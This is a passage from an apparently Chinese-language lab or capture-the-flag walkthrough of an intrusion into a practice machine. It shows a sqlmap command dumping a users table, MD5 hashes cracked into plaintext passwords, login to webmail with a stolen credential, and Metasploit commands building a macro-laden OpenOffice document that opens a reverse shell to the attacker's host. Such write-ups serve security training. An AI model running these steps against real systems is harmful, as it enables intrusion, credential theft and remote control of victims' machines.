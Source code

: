 ```
 Kain       33903fbcc0b1046a09edfaa0a65e8f8c  
 Raziel     719da165a626b4cf23b626896c213b84  
 Ariel      B9c2538d92362e0e18e52d0ee9ca0c6f  
 Dimitri    D459f76a5eeeed0eca8ab4476c144ac4  
 Magnus     370fc3559c9f0bff80543f2e1151c537  
 Zephon     13fa8abd10eed98d89fd6fc678afaf94  
 Turel      D322dc36451587ea2994c84c9d9717a1  
 Dumah      33da7a40473c1637f1a2e142f4925194  
 Malek      Dea56e47f1c62c30b83b70eb281a6c39  
 Moebius    A6f30815a43f38ec6de95b9a9d74da37
```

当然我们也可以通过 sqlmap 来获取信息，但是需要在其中填入 Cookie 信息

```
sqlmap -u 'http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans' --cookie='PHPSESSID= ' -D secret -T users --dump  

```

通过破解网站对获取到的密文进行破解 **破解网站：https://crackstation.net/**![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)解密结果如下：

```
33903fbcc0b1046a09edfaa0a65e8f8c md5 doradaybendita  
719da165a626b4cf23b626896c213b84 md5 kelseylovesbarry  
B9c2538d92362e0e18e52d0ee9ca0c6f md5 pussycatdolls  
D459f76a5eeeed0eca8ab4476c144ac4 md5 shaunamaloney  
370fc3559c9f0bff80543f2e1151c537 md5 xNnWo6272k7x  
13fa8abd10eed98d89fd6fc678afaf94 Unknown Not found.  
D322dc36451587ea2994c84c9d9717a1 Unknown Not found.  
33da7a40473c1637f1a2e142f4925194 md5 popcorn  
Dea56e47f1c62c30b83b70eb281a6c39 md5 barcelona  
A6f30815a43f38ec6de95b9a9d74da37 md5 santiago  

```

0x02 上线[raziel]
---------------

### OWA邮件钓鱼

通过账号密码 Kain/doradaybendita 登录OWA并查看其中的邮件![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在邮件中可以发现其中部署了 Open Office，但是计算机中 Windows Defender 已开启、PowerShell 已限制。

#### 制作木马

我们可使用 MSF 针对 Open Office 生成反弹shell文档`msf.odt`

```
msfconsole  
msf > use exploit/multi/misc/openoffice_document_macro  
msf > set srvhost 10.10.14.17  
msf > set lhost 10.10.14.17  
msf > run  

```
